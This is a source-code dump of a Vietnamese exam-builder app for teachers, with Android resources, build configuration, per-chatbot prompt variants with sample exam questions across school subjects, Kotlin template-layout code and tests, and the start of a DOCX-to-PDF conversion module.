<?xml version="1.0" encoding="utf-8"?>
<resources>
    <color name="ic_launcher_background">#2563EB</color>
</resources>

```

### FILE: Exam builder for adr/app/src/main/res/values/strings.xml

```xml
<resources>
    <string name="app_name">ExamBuilder</string>
</resources>

```

### FILE: Exam builder for adr/app/src/main/res/values/themes.xml

```xml
<resources xmlns:tools="http://schemas.android.com/tools">
    <!-- Base theme just hands the window to Compose (Theme.kt); no XML widgets used. -->
    <style name="Theme.ExamBuilder" parent="android:Theme.Material.Light.NoActionBar" />
</resources>

```

### FILE: Exam builder for adr/app/src/main/res/xml/backup_rules.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<full-backup-content>
</full-backup-content>

```

### FILE: Exam builder for adr/app/src/main/res/xml/data_extraction_rules.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<data-extraction-rules>
    <cloud-backup>
    </cloud-backup>
</data-extraction-rules>

```

### FILE: Exam builder for adr/app/src/main/res/xml/file_paths.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <external-files-path name="exports" path="exports/" />
</paths>

```

### FILE: Exam builder for adr/build.gradle.kts

```kotlin
plugins {
    id("com.android.application") version "8.13.0" apply false
    id("org.jetbrains.kotlin.android") version "1.9.24" apply false
    id("org.jetbrains.kotlin.plugin.serialization") version "1.9.24" apply false
}

```

### FILE: Exam builder for adr/gradle.properties

```properties
org.gradle.jvmargs=-Xmx2048m -Dfile.encoding=UTF-8
android.useAndroidX=true
android.nonTransitiveRClass=true
kotlin.code.style=official
# Repo path contains Vietnamese diacritics (Desktop/file nộp bài tập all/...);
# AGP's ASCII-only path check would otherwise hard-fail the build.
android.overridePathCheck=true

```

### FILE: Exam builder for adr/gradle/wrapper/gradle-wrapper.properties

```properties
distributionBase=GRADLE_USER_HOME
distributionPath=wrapper/dists
distributionUrl=https\://services.gradle.org/distributions/gradle-8.14.3-bin.zip
zipStoreBase=GRADLE_USER_HOME
zipStorePath=wrapper/dists

```

### FILE: Exam builder for adr/settings.gradle.kts

```kotlin
pluginManagement {
    repositories {
        google()
        mavenCentral()
        gradlePluginPortal()
    }
}
dependencyResolutionManagement {
    repositoriesMode.set(RepositoriesMode.FAIL_ON_PROJECT_REPOS)
    repositories {
        google()
        mavenCentral()
    }
}

rootProject.name = "ExamBuilder"
include(":app")

```

### FILE: babel.config.cjs

```javascript
module.exports = {
  presets: [['@babel/preset-env', { targets: { node: 'current' } }]]
};

```

### FILE: backend/parser/package.json

```json
{
  "type": "module"
}

```

### FILE: package.json

```json
{
  "name": "exam-builder",
  "version": "1.0.0",
  "description": "Ung dung tao de kiem tra cho giao vien (Web App)",
  "main": "backend/server.js",
  "scripts": {
    "start": "node backend/server.js",
    "test": "jest",
    "test:coverage": "jest --coverage --collectCoverageFrom=\"backend/**/*.js\" --coveragePathIgnorePatterns=\"server.js|index.js\"",
    "gen:prompt": "node tools/gen-prompt-module.js && node tools/gen-prompt-variants.js"
  },
  "dependencies": {
    "@napi-rs/canvas": "^0.1.100",
    "docx": "^9.7.1",
    "express": "^4.19.2",
    "katex": "^0.18.4",
    "mammoth": "^1.12.1",
    "multer": "^2.2.0",
    "node-llama-cpp": "^3.20.0",
    "pdf-parse": "^2.4.5",
    "sqlite": "^5.1.1",
    "sqlite3": "^5.1.7"
  },
  "devDependencies": {
    "@babel/core": "^8.0.1",
    "@babel/preset-env": "^8.0.2",
    "babel-jest": "^30.4.1",
    "jest": "^30.4.2",
    "supertest": "^7.2.2"
  },
  "allowScripts": {
    "node-llama-cpp@3.20.0": true,
    "sqlite3@5.1.7": true,
    "unrs-resolver@1.12.2": true
  }
}

```

> File sau KHONG nhung noi dung (tu dong sinh boi npm, tai lap chinh xac qua `npm install` tu package.json, qua lon de nhung ben duoi): package-lock.json

# SOURCE CODE

### FILE: AI_Prompts_Variants.txt

```text
PROMPT THEO TỪNG NỀN TẢNG AI — ExamBuilder (nguồn cho tools/gen-prompt-variants.js)
==========================================================
File này KHÔNG lặp lại toàn bộ quy tắc định dạng (đã có sẵn, dùng chung, nguồn duy nhất vẫn là
Gemini_Prompt_Unified.txt qua backend/llm/promptBuilder.js#extractFormatInstructions). Ở đây chỉ
khai báo phần "khác nhau" giữa các nền tảng: câu giới thiệu ngắn, 1 đoạn lưu ý riêng được CHÈN VÀO
CUỐI prompt gửi cho AI đó (để đối phó xu hướng riêng của từng AI), và một ví dụ kết quả mẫu riêng
(đổi môn học để minh hoạ prompt dùng được cho mọi môn, không chỉ Toán).

Sửa xong file này -> chạy: node tools/gen-prompt-variants.js  (hoặc: npm run gen:prompt, đã gộp cả
hai bước). Sinh ra frontend/promptVariants.js — KHÔNG hand-edit file đó.

Cú pháp mỗi khối:
  ##### VARIANT: <id> #####
  LABEL: <tên hiển thị trên nút tab>
  HINT: <1 dòng, hiển thị phía trên khung prompt trong UI, nói nơi dán>
  TIP:
  <1 đoạn văn — lưu ý riêng cho AI đó, được nối vào cuối prompt chính>
  EXAMPLE_TOPIC: <môn học / chủ đề của ví dụ>
  EXAMPLE:
  <toàn bộ nội dung ví dụ mẫu, bắt đầu từ =PHAN_1_TRAC_NGHIEM=>
  ##### END #####

==========================================================

##### VARIANT: gemini #####
LABEL: Gemini (thường)
HINT: Dán vào Gemini bản chat thường tại gemini.google.com hoặc app Gemini trên điện thoại (khác với tab "Tự động" trong ExamBuilder — tab đó gọi Gemini qua API ngay trong phần mềm).
TIP:
LƯU Ý DÀNH RIÊNG CHO GEMINI: Nếu câu trả lời có nguy cơ bị dừng giữa chừng do giới hạn độ dài, hãy ưu tiên viết trọn vẹn từng câu hỏi (đủ cả "Dap_An:" và "Loi_Giai:") rồi mới dừng, không bỏ dở một câu đang viết. Nếu bạn tự chèn dấu ** hoặc gạch đầu dòng markdown, hãy xuất lại không dùng markdown.
EXAMPLE_TOPIC: Toán 6 - Số nguyên
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Kết quả của phép tính (-5) + 3 là bao nhiêu?
A. -2
B. 2
C. -8
D. 8
Dap_An: A
Loi_Giai: (-5) + 3 = -(5 - 3) = -2, vì |-5| > |3| nên kết quả mang dấu âm.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Giá trị của biểu thức $(-2)^{3} + \sqrt{16}$ bằng bao nhiêu?
A. -4
B. 4
C. -12
D. 12
Dap_An: A
Loi_Giai: $(-2)^{3} = -8$ và $\sqrt{16} = 4$, nên -8 + 4 = -4.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Tích của hai số nguyên âm luôn là một số nguyên dương.
Dap_An: Dung
Loi_Giai: Theo quy tắc dấu: (-) x (-) = (+), nên tích của hai số nguyên âm luôn là số dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Điền số thích hợp vào chỗ trống: |-12| + |-8| = ___
Dap_An: 20
Loi_Giai: |-12| = 12, |-8| = 8, suy ra 12 + 8 = 20.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Một chiếc tàu ngầm đang ở độ sâu 45m so với mực nước biển. Tàu di chuyển lên 20m rồi tiếp tục lặn xuống 30m. Hỏi tàu ngầm đang ở độ sâu bao nhiêu mét so với mực nước biển? Trình bày lời giải bằng phép tính với số nguyên.
So_Dong_Nhap: 6
Loi_Giai: Độ sâu ban đầu: -45m. Sau khi lên 20m: -45 + 20 = -25m. Sau khi lặn xuống 30m: -25 - 30 = -55m. Vậy tàu ngầm đang ở độ sâu 55m so với mực nước biển.
##### END #####

##### VARIANT: gemini_pro #####
LABEL: Gemini Pro
HINT: Dán vào Gemini Pro (gói Gemini Advanced / Google One AI Premium) tại gemini.google.com, chọn model 2.5 Pro (hoặc bản Pro mới nhất) — mạnh hơn bản Gemini thường ở khả năng suy luận và độ dài ngữ cảnh.
TIP:
LƯU Ý DÀNH RIÊNG CHO GEMINI PRO: Nhờ cửa sổ ngữ cảnh lớn, có thể dán kèm nguyên văn nội dung sách/bài giảng vào cuối prompt này làm tư liệu tham khảo ngay trong cùng một lượt hỏi. Nếu bạn bật chế độ suy luận sâu (Thinking/Deep Think), CHỈ xuất ra đáp án và lời giải cuối cùng theo đúng định dạng — không in ra các bước suy nghĩ trung gian, không có thẻ hay mục nào khác đứng trước dòng "=PHAN_1_TRAC_NGHIEM=".
EXAMPLE_TOPIC: Sinh học 8 - Hệ tuần hoàn
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Hệ tuần hoàn ở người có chức năng chính là gì?
A. Vận chuyển máu và các chất dinh dưỡng, khí đi khắp cơ thể
B. Tiêu hóa thức ăn thành chất dinh dưỡng
C. Lọc và bài tiết nước tiểu
D. Điều khiển mọi hoạt động của cơ thể
Dap_An: A
Loi_Giai: Hệ tuần hoàn gồm tim và mạch máu, có chức năng vận chuyển máu mang oxi, chất dinh dưỡng, hoocmon và các chất thải đi khắp cơ thể.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Tim người có mấy ngăn?
A. 2 ngăn
B. 3 ngăn
C. 4 ngăn
D. 5 ngăn
Dap_An: C
Loi_Giai: Tim người có 4 ngăn: 2 tâm nhĩ (trái, phải) và 2 tâm thất (trái, phải).

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Máu chảy trong động mạch luôn là máu giàu oxi (máu đỏ tươi).
Dap_An: Sai
Loi_Giai: Không đúng với mọi trường hợp: động mạch chủ dẫn máu giàu oxi đi nuôi cơ thể, nhưng động mạch phổi lại dẫn máu nghèo oxi từ tim lên phổi để trao đổi khí.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Loại mạch máu có thành mỏng nhất, chỉ gồm một lớp tế bào, giúp máu trao đổi chất dễ dàng với tế bào cơ thể, được gọi là ___.
Dap_An: mao mạch
Loi_Giai: Mao mạch là mạch máu nhỏ nhất, thành chỉ gồm một lớp tế bào biểu mô, cho phép các chất trao đổi qua lại giữa máu và mô cơ thể.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Giải thích vì sao khi luyện tập thể dục thể thao thường xuyên, nhịp tim lúc nghỉ ngơi của một người có xu hướng giảm xuống theo thời gian.
So_Dong_Nhap: 8
Loi_Giai: Luyện tập thường xuyên làm cơ tim khỏe hơn, thành tim dày hơn nên mỗi lần co bóp tim tống được nhiều máu hơn (tăng thể tích tâm thu). Do đó để đáp ứng đủ nhu cầu oxi và dinh dưỡng cho cơ thể lúc nghỉ ngơi, tim không cần đập nhanh như trước, dẫn đến nhịp tim lúc nghỉ giảm xuống — đây là dấu hiệu của một trái tim khỏe mạnh.
##### END #####

##### VARIANT: chatgpt #####
LABEL: ChatGPT
HINT: Dán vào ChatGPT tại chatgpt.com hoặc app ChatGPT.
TIP:
LƯU Ý DÀNH RIÊNG CHO CHATGPT: TUYỆT ĐỐI không bọc kết quả trong khối mã (ba dấu backtick), kể cả khi bạn có thói quen mặc định làm vậy với nội dung dạng danh sách/bảng. Không thêm câu mở đầu kiểu "Dưới đây là đề kiểm tra..." hay câu kết kiểu "Chúc bạn dạy tốt!" — chỉ xuất đúng nội dung đề theo định dạng đã nêu.
EXAMPLE_TOPIC: Vật lý 10 - Động học chất điểm
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Một vật chuyển động thẳng đều đi được quãng đường 120m trong 20s. Tốc độ trung bình của vật là bao nhiêu?
A. 4 m/s
B. 6 m/s
C. 8 m/s
D. 10 m/s
Dap_An: B
Loi_Giai: Tốc độ trung bình $v = \dfrac{s}{t} = \dfrac{120}{20} = 6$ m/s.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Một ô tô chuyển động thẳng nhanh dần đều từ trạng thái nghỉ với gia tốc 2 m/s². Sau 5s vận tốc của ô tô là bao nhiêu?
A. 5 m/s
B. 8 m/s
C. 10 m/s
D. 15 m/s
Dap_An: C
Loi_Giai: Áp dụng công thức $v = v_0 + at$, với $v_0 = 0$, $a = 2$ m/s², $t = 5$s, ta có $v = 0 + 2 \times 5 = 10$ m/s.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Trong chuyển động thẳng đều, quãng đường đi được luôn tỉ lệ thuận với thời gian chuyển động.
Dap_An: Dung
Loi_Giai: Vì $s = v \times t$ với $v$ không đổi, nên $s$ tỉ lệ thuận với $t$.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Một vật rơi tự do từ độ cao 80m (bỏ qua sức cản không khí, lấy $g = 10$ m/s²). Thời gian vật chạm đất là ___ giây.
Dap_An: 4
Loi_Giai: Từ công thức $h = \dfrac{1}{2}gt^2$, suy ra $t = \sqrt{\dfrac{2h}{g}} = \sqrt{\dfrac{2 \times 80}{10}} = \sqrt{16} = 4$ giây.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Hai xe máy xuất phát cùng lúc từ hai địa điểm A và B cách nhau 90km, chuyển động thẳng đều ngược chiều nhau để gặp nhau. Xe từ A có tốc độ 30 km/h, xe từ B có tốc độ 20 km/h. Hỏi sau bao lâu hai xe gặp nhau và vị trí gặp nhau cách A bao nhiêu km? Trình bày lời giải.
So_Dong_Nhap: 8
Loi_Giai: Tốc độ tiến lại gần nhau: $30 + 20 = 50$ km/h. Thời gian gặp nhau: $t = \dfrac{90}{50} = 1{,}8$ giờ. Vị trí gặp nhau cách A: $30 \times 1{,}8 = 54$ km.
##### END #####

##### VARIANT: deepseek #####
LABEL: DeepSeek
HINT: Dán vào DeepSeek tại chat.deepseek.com hoặc app DeepSeek.
TIP:
LƯU Ý DÀNH RIÊNG CHO DEEPSEEK: Nếu bạn có bước suy luận trước khi trả lời (thinking/reasoning, ví dụ chế độ DeepThink/R1), phần suy luận đó KHÔNG được lẫn vào nội dung xuất ra cho người dùng — nội dung bạn xuất ra phải bắt đầu ngay bằng dòng "=PHAN_1_TRAC_NGHIEM=", tuyệt đối không có thẻ <think>, không có dòng ghi chú hay tóm tắt suy luận nào khác đứng trước hoặc xen giữa.
EXAMPLE_TOPIC: Hóa học 8 - Nguyên tử, phân tử
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Phân tử nước có công thức hóa học là gì?
A. H2O
B. CO2
C. O2
D. NaCl
Dap_An: A
Loi_Giai: Phân tử nước gồm 2 nguyên tử Hiđro và 1 nguyên tử Oxi liên kết với nhau, công thức hóa học là H2O.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Phân tử khối của khí cacbonic (CO2) bằng bao nhiêu, biết nguyên tử khối của C là 12, của O là 16?
A. 28
B. 32
C. 44
D. 60
Dap_An: C
Loi_Giai: Phân tử khối CO2 = 12 + 16 x 2 = 12 + 32 = 44 đvC.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Nguyên tử trung hòa về điện vì số proton trong hạt nhân luôn bằng số electron ở lớp vỏ.
Dap_An: Dung
Loi_Giai: Proton mang điện tích dương, electron mang điện tích âm với độ lớn bằng nhau; số proton bằng số electron nên nguyên tử trung hòa về điện.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Một phân tử khí oxi gồm 2 nguyên tử O. Biết nguyên tử khối của O là 16, phân tử khối của khí oxi là ___ đvC.
Dap_An: 32
Loi_Giai: Phân tử khối O2 = 16 x 2 = 32 đvC.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Hợp chất X có phân tử gồm 1 nguyên tử nguyên tố R liên kết với 2 nguyên tử Oxi, phân tử khối của X là 44 đvC. Xác định nguyên tố R và viết công thức hóa học của X. Biết nguyên tử khối của O là 16.
So_Dong_Nhap: 6
Loi_Giai: Gọi nguyên tử khối của R là x. Ta có: x + 16 x 2 = 44, suy ra x = 44 - 32 = 12. Vậy R là Cacbon (C), công thức hóa học của X là CO2.
##### END #####

##### VARIANT: claude #####
LABEL: Claude
HINT: Dán vào Claude tại claude.ai hoặc app Claude.
TIP:
LƯU Ý DÀNH RIÊNG CHO CLAUDE: Không mở đầu câu trả lời bằng bất kỳ câu dẫn nào, kể cả một câu ngắn xác nhận yêu cầu ("Đây là đề kiểm tra bạn cần:" hay tương tự) — xuất thẳng vào nội dung đề. Nếu đề quá dài phải dừng giữa chừng do giới hạn một lượt trả lời, hãy dừng đúng ngay sau một dòng "Loi_Giai:" hoàn chỉnh của một câu (không dừng giữa chừng một câu đang viết dở), để người dùng có thể yêu cầu viết tiếp phần còn lại.
EXAMPLE_TOPIC: Lịch sử 9 - Cách mạng tháng Tám 1945
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Cách mạng tháng Tám năm 1945 ở Việt Nam giành chính quyền thắng lợi trong thời gian nào?
A. Từ 14/8 đến 28/8/1945
B. Từ 1/9 đến 15/9/1945
C. Từ 19/8 đến 2/9/1945
D. Từ 6/1 đến 19/1/1946
Dap_An: A
Loi_Giai: Từ ngày 14/8 đến 28/8/1945, cuộc Tổng khởi nghĩa diễn ra và giành thắng lợi trên cả nước, tiêu biểu là khởi nghĩa giành chính quyền ở Hà Nội (19/8), Huế (23/8), Sài Gòn (25/8).

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Sự kiện nào đánh dấu Cách mạng tháng Tám năm 1945 thành công, khai sinh ra nước Việt Nam Dân chủ Cộng hòa?
A. Nhật đảo chính Pháp (9/3/1945)
B. Tổng khởi nghĩa giành chính quyền ở Hà Nội (19/8/1945)
C. Chủ tịch Hồ Chí Minh đọc Tuyên ngôn Độc lập (2/9/1945)
D. Hội nghị toàn quốc của Đảng ở Tân Trào (14/8/1945)
Dap_An: C
Loi_Giai: Ngày 2/9/1945, tại Quảng trường Ba Đình, Chủ tịch Hồ Chí Minh đọc bản Tuyên ngôn Độc lập, khai sinh ra nước Việt Nam Dân chủ Cộng hòa - đánh dấu thắng lợi hoàn toàn của Cách mạng tháng Tám.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Cách mạng tháng Tám năm 1945 thành công một phần nhờ chớp đúng thời cơ khi phát xít Nhật đầu hàng Đồng minh.
Dap_An: Dung
Loi_Giai: Ngày 15/8/1945, Nhật đầu hàng Đồng minh không điều kiện, tạo thời cơ "ngàn năm có một" để Đảng ta phát động Tổng khởi nghĩa giành chính quyền trước khi quân Đồng minh vào Đông Dương.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Hội nghị toàn quốc của Đảng quyết định phát động Tổng khởi nghĩa được tổ chức tại ___ vào tháng 8/1945.
Dap_An: Tân Trào
Loi_Giai: Hội nghị toàn quốc của Đảng họp tại Tân Trào (Tuyên Quang) từ 14 đến 15/8/1945, quyết định phát động Tổng khởi nghĩa trong cả nước.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Trình bày nguyên nhân thắng lợi và ý nghĩa lịch sử của Cách mạng tháng Tám năm 1945.
So_Dong_Nhap: 10
Loi_Giai: Nguyên nhân thắng lợi: (1) Có sự lãnh đạo đúng đắn, sáng suốt của Đảng và Chủ tịch Hồ Chí Minh; (2) Truyền thống yêu nước, tinh thần đoàn kết của toàn dân tộc trong Mặt trận Việt Minh; (3) Chớp đúng thời cơ khi phát xít Nhật đầu hàng Đồng minh. Ý nghĩa lịch sử: Đập tan ách thống trị của thực dân, phát xít và chế độ phong kiến, lập nên nước Việt Nam Dân chủ Cộng hòa - nhà nước công nông đầu tiên ở Đông Nam Á; mở ra kỷ nguyên độc lập, tự do cho dân tộc; góp phần cổ vũ phong trào giải phóng dân tộc trên thế giới.
##### END #####

##### VARIANT: grok #####
LABEL: Grok
HINT: Dán vào Grok tại grok.com hoặc trong ứng dụng X (Twitter).
TIP:
LƯU Ý DÀNH RIÊNG CHO GROK: Giữ giọng văn nghiêm túc trong toàn bộ nội dung xuất ra — KHÔNG chêm bình luận hài hước, KHÔNG dùng emoji, KHÔNG thêm ghi chú ngoài lề dù chỉ một dòng. Nếu bạn có nhiều chế độ suy luận, hãy chọn chế độ tuân thủ định dạng nghiêm ngặt nhất.
EXAMPLE_TOPIC: Tin học 6 - Mạng máy tính và Internet
EXAMPLE:
=PHAN_1_TRAC_NGHIEM=
[CAU_HOI]
Loai: TN
Muc_Do: Nhan_Biet
De_Bai: Internet là gì?
A. Một mạng máy tính duy nhất đặt tại một quốc gia
B. Mạng lưới khổng lồ kết nối hàng triệu mạng máy tính trên toàn thế giới
C. Một loại phần mềm diệt virus
D. Một thiết bị lưu trữ dữ liệu
Dap_An: B
Loi_Giai: Internet là mạng lưới kết nối hàng triệu mạng máy tính và thiết bị trên khắp thế giới, cho phép chúng trao đổi dữ liệu với nhau.

[CAU_HOI]
Loai: TN
Muc_Do: Thong_Hieu
De_Bai: Thiết bị nào sau đây dùng để kết nối các máy tính trong một mạng cục bộ (LAN) với nhau?
A. Chuột máy tính
B. Switch (bộ chuyển mạch)
C. Bàn phím
D. Màn hình
Dap_An: B
Loi_Giai: Switch (bộ chuyển mạch) là thiết bị mạng dùng để kết nối nhiều máy tính trong cùng một mạng LAN, cho phép chúng truyền dữ liệu qua lại.

[CAU_HOI]
Loai: DUNG_SAI
Muc_Do: Thong_Hieu
De_Bai: Địa chỉ IP là một dãy số dùng để định danh duy nhất một thiết bị khi tham gia vào mạng.
Dap_An: Dung
Loi_Giai: Mỗi thiết bị kết nối mạng (máy tính, điện thoại...) được cấp một địa chỉ IP để các thiết bị khác có thể nhận diện và gửi dữ liệu đến đúng đích.

[CAU_HOI]
Loai: DIEN_TU
Muc_Do: Van_Dung
De_Bai: Giao thức chuẩn dùng để truyền tải các trang web trên Internet có tên viết tắt là ___.
Dap_An: HTTP
Loi_Giai: HTTP (HyperText Transfer Protocol) là giao thức chuẩn để trình duyệt và máy chủ web trao đổi dữ liệu trang web với nhau.

=PHAN_2_TU_LUAN=
[CAU_HOI]
Loai: TU_LUAN
Muc_Do: Van_Dung_Cao
De_Bai: Em hãy trình bày 3 lợi ích và 2 rủi ro khi sử dụng Internet, đồng thời đề xuất cách phòng tránh các rủi ro đó.
So_Dong_Nhap: 8
Loi_Giai: Lợi ích: (1) Tìm kiếm thông tin, học tập trực tuyến nhanh chóng; (2) Liên lạc, trao đổi với bạn bè, người thân dù ở xa; (3) Giải trí (xem phim, nghe nhạc, chơi game). Rủi ro: (1) Tiếp xúc thông tin sai lệch, độc hại; (2) Bị lộ thông tin cá nhân, lừa đảo trực tuyến. Cách phòng tránh: không chia sẻ thông tin cá nhân cho người lạ, chỉ truy cập trang web uy tín, hỏi ý kiến người lớn khi gặp nội dung/hành vi đáng ngờ.
##### END #####

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/model/TemplateLayout.kt

```kotlin
package com.exambuilder.android.model

import kotlinx.serialization.json.JsonArray
import kotlinx.serialization.json.JsonObject
import kotlinx.serialization.json.jsonObject
import kotlinx.serialization.json.jsonPrimitive

data class TemplatePaper(
    val widthPt: Int,
    val heightPt: Int,
    val topPt: Float,
    val bottomPt: Float,
    val leftPt: Float,
    val rightPt: Float
)

data class TemplateSlot(val slotId: String, val points: String, val answerKind: String, val answerLines: Int)
data class TemplateSection(val stimulus: String?, val slots: List<TemplateSlot>)
data class TemplateLayout(val paper: TemplatePaper, val sections: List<TemplateSection>) {
    val slots: List<TemplateSlot> get() = sections.flatMap { it.slots }
    fun slotAt(index: Int): TemplateSlot? = slots.getOrNull(index)
    fun slotFor(question: Question, index: Int): TemplateSlot? =
        if (question.templateSlotId != null) slots.firstOrNull { it.slotId == question.templateSlotId }
        else slotAt(index)
}

private fun JsonObject.obj(key: String): JsonObject? = this[key] as? JsonObject
private fun JsonObject.string(key: String): String? = runCatching { this[key]?.jsonPrimitive?.content }.getOrNull()
private fun JsonObject.number(key: String): Float? = string(key)?.toFloatOrNull()
private fun mmToPt(mm: Float): Float = mm * 72f / 25.4f

/**
 * Read only the fields Android can render. If slot counts differ from current
 * blocks, do not display potentially wrong score/answer-space annotations.
 */
fun Exam.templateLayout(): TemplateLayout? {
    val snapshot = templateBinding?.obj("template_snapshot") ?: return null
    val appearance = snapshot.obj("appearance")
    val portrait = if (appearance?.string("paper") == "A5") 420 to 595 else 595 to 842
    val (width, height) = if (appearance?.string("orientation") == "landscape") portrait.second to portrait.first else portrait
    val margins = appearance?.obj("margins_mm")
    fun margin(key: String): Float = mmToPt((margins?.number(key) ?: 18f).coerceIn(8f, 35f))
    val paper = TemplatePaper(width, height, margin("top"), margin("bottom"), margin("left"), margin("right"))
    val sections = (snapshot["sections"] as? JsonArray)?.mapNotNull { raw ->
        val section = raw as? JsonObject ?: return@mapNotNull null
        val slots = (section["slots"] as? JsonArray)?.mapNotNull { item ->
            val slot = item as? JsonObject ?: return@mapNotNull null
            val answer = slot.obj("answer_space")
            TemplateSlot(
                slotId = slot.string("slot_id").orEmpty(),
                points = slot.string("points").orEmpty(),
                answerKind = answer?.string("kind") ?: "none",
                answerLines = (answer?.string("lines")?.toIntOrNull() ?: 0).coerceIn(0, 30)
            )
        } ?: return@mapNotNull null
        TemplateSection(section.string("stimulus")?.takeIf { it.isNotBlank() }, slots)
    } ?: return null
    if (sections.sumOf { it.slots.size } != blocks.sumOf { it.questions.size }) return null
    return TemplateLayout(paper, sections)
}

```

### FILE: Exam builder for adr/app/src/test/java/com/exambuilder/android/data/TemplateBindingDtoTest.kt

```kotlin
package com.exambuilder.android.data

import com.exambuilder.android.data.dto.LibraryFile
import com.exambuilder.android.data.dto.LibraryJson
import com.exambuilder.android.data.dto.SavedExamDto
import com.exambuilder.android.data.dto.toExam
import com.exambuilder.android.data.dto.toSavedExamDto
import kotlinx.serialization.json.buildJsonObject
import kotlinx.serialization.json.put
import org.junit.Assert.assertEquals
import org.junit.Test

class TemplateBindingDtoTest {
    @Test fun bindingSurvivesLibraryOpenAndSave() {
        val binding = buildJsonObject {
            put("schema_version", 1)
            put("template_id", "builtin.t10")
            put("template_version", 1)
            put("future_field", "preserve-me")
        }
        val source = LibraryFile(exams = listOf(SavedExamDto(examId = "exam-1", templateBinding = binding)))
        val decoded = LibraryJson.decodeFromString(LibraryFile.serializer(), LibraryJson.encodeToString(LibraryFile.serializer(), source))
        val opened = decoded.exams.single().toExam()
        val saved = opened.toSavedExamDto("exam-1", null, "2026-10-11T00:00:00Z")
        assertEquals(binding, saved.templateBinding)
    }
}

```

### FILE: Exam builder for adr/app/src/test/java/com/exambuilder/android/model/TemplateLayoutTest.kt

```kotlin
package com.exambuilder.android.model

import kotlinx.serialization.json.Json
import kotlinx.serialization.json.JsonObject
import org.junit.Assert.assertEquals
import org.junit.Assert.assertNull
import org.junit.Test

class TemplateLayoutTest {
    private val binding = Json.parseToJsonElement("""{
      "template_snapshot": {
        "appearance": {"paper":"A5","orientation":"landscape","margins_mm":{"top":12,"bottom":15,"left":20,"right":20}},
        "sections": [{"stimulus":"Read this passage","slots":[{"slot_id":"s1.q1","points":"2.50","answer_space":{"kind":"lined","lines":7}}]}]
      }
    }""") as JsonObject

    @Test fun readsPaperAndSlotFromSnapshot() {
        val exam = Exam(blocks = listOf(QuestionBlock(blockType = BlockType.ESSAY, blockTitle = "Writing", questions = listOf(
            Question(questionType = QuestionType.ESSAY, content = "Write", difficultyLevel = DifficultyLevel.NB, templateSlotId = "s1.q1")
        ))), templateBinding = binding)
        val layout = exam.templateLayout()!!
        assertEquals(595, layout.paper.widthPt)
        assertEquals(420, layout.paper.heightPt)
        assertEquals("2.50", layout.slotAt(0)?.points)
        assertEquals(7, layout.slotAt(0)?.answerLines)
        assertEquals("2.50", layout.slotFor(exam.blocks[0].questions[0], 0)?.points)
        assertNull(layout.slotFor(exam.blocks[0].questions[0].copy(templateSlotId = "missing"), 0))
        assertEquals("Read this passage", layout.sections[0].stimulus)
    }

    @Test fun mismatchedQuestionCountDoesNotApplyPoints() {
        assertNull(Exam(templateBinding = binding).templateLayout())
    }
}

```

### FILE: backend/documentConvert/docxToPdf.js

```javascript
const fs = require('fs/promises');
const os = require('os');
const path = require('path');
const { execFile } = require('child_process');
const { promisify } = require('util');

const run = promisify(execFile);
const SCRIPT = path.join(__dirname, '..', '..', 'tools', 'docx-to-pdf.ps1');

async function docxToPdf(buffer) {
  if (process.platform !== 'win32') throw new Error('Chuyển DOCX thành PDF cần Microsoft Word trên Windows.');
  const directory = await fs.mkdtemp(path.join(os.tmpdir(), 'exam-docx-render-'));
  const input = path.join(directory, 'source.docx');
  const output = path.join(directory, 'rendered.pdf');
  try {
    await fs.writeFile(input, buffer, { flag: 'wx' });
    await run('powershell.exe', ['-NoProfile', '-NonInteractive', '-ExecutionPolicy', 'Bypass', '-File', SCRIPT, '-InputPath', input, '-OutputPath', output], {
      windowsHide: true,
      timeout: 60000,
      maxBuffer: 1024 * 1024
    });
    const pdf = await fs.readFile(output);
    if (pdf.length < 8 || pdf.toString('ascii', 0, 5) !== '%PDF-') throw new Error('Microsoft Word không tạo PDF hợp lệ.');
    return pdf;
  } finally {
